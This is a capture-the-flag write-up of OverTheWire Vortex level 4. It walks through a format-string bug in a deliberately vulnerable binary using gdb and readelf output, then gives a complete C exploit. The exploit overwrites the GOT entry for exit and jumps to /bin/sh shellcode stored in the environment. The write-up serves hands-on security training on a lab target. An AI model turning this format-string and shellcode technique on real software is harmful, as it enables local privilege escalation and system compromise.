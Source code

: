 # Overthewire Vortex Level 4 Writeup

This one is a "non-standard" format string overflow. I say non-standard since the start address of the first argument of `printf` of the "standard" one is usually fixed. If your input length is not a constant, you will find debugging of this program is completely disater.

```c
// -- andrewg, original author was zen-parse :)
#include <stdlib.h>


int main(int argc, char **argv)
{
        if(argc) exit(0);
        printf(argv[3]);
        exit(EXIT_FAILURE);
}
```

The `argv` array must end with `NULL`. So `argv[0]` is `NULL`, `argv[3]` is `env[2]`. After messing with the length, `%n` finally hits the right offset.

```
#0  0xf7e69873 in ?? ()
(gdb) i r
eax            0x41414141 1094795585
ecx            0x4  4
edx            0xffffffff -1
ebx            0xf7fca000 -134438912
esp            0xffffa210 0xffffa210
ebp            0xffffdc88 0xffffdc88
esi            0xf7fcaac0 -134436160
edi            0xffffdc70 -9104
eip            0xf7e69873 0xf7e69873
eflags         0x10246  [ PF ZF IF RF ]
cs             0x23 35
ss             0x2b 43
ds             0x2b 43
es             0x2b 43
fs             0x0  0
gs             0x63 99
```

You see `eax` is `0x41414141` and `ecx` is 4. 4 is the length of `AAAA`. `0xf7e69873` is totally nonsense. When there is an overflow, `printf`jumps to this address to make debugging harder. But this weird behavior could not stop me. It is worthnoting that, you should use the original program to debug, not the copied one. Otherwise the stack layout in `gdb` is slightly different(Though I have control of `argv` and `env`).

If `printf` sucessfully overwrites GOT entry of `exit`, we can jump to the shellcode at `env[0]`. Extract the address of `env[0]` in `gdb`:

```
(gdb) x/s *((char **)environ)
0xffffde15: "1\300Ph//shh/bin\211\343PS\211\341\211\302\260\v\315\200"
```

```
$ readelf -r /vortex/vortex4

Relocation section '.rel.dyn' at offset 0x2ac contains 1 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ffc  00000206 R_386_GLOB_DAT    00000000   __gmon_start__

Relocation section '.rel.plt' at offset 0x2b4 contains 4 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a00c  00000107 R_386_JUMP_SLOT   00000000   printf
0804a010  00000207 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a014  00000307 R_386_JUMP_SLOT   00000000   exit
0804a018  00000407 R_386_JUMP_SLOT   00000000   __libc_start_main
```

I need to overwrite the content on address `0804a014` with 0xffffde15. The final exploit is below. You need to adjust the `439` by yourself in order to trigger an overflow which writes to `AAAA`.

```c
#include <unistd.h>
#include <string.h>
#include <stdio.h>

int main() {
  int i;
  char buf[2048];
  int used = 0;
  // strncpy(buf, "AAAA", strlen("AAAA"));
  // used += 4;
  char payload[] = "\x14\xa0\x04\x08\x16\xa0\x04\x08%56845c%104$hn%8682c%105$hn";
  strncpy(buf, payload, strlen(payload));
  used += strlen(payload);

  for (i = 0; i < 104; i++)
  {
    strncpy(buf + used, "%p ", strlen("%p "));
    used += 3;
  }
  printf("debug, used: %d\n", used);

  // strncpy(buf + used, "%104$n", strlen("%104$n"));
  // used += strlen("%104$n");


  printf("Padding...\n");
  int times = 439 - used;
  for (i = 0; i < times; i++)
  {
    strncpy(buf + used, "B", strlen("B"));
    used += 1;
  }

  buf[used] = NULL;
  printf("buf: %s\n", buf);
  printf("len of buf: %d\n", strlen(buf));


  char *argv[] = {NULL};
  char *env[4];
  env[0] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80";
  env[1] = "";


  env[2] = buf;
  env[3] = NULL;
  execve("/vortex/vortex4", argv, env);
  return 0;
}
```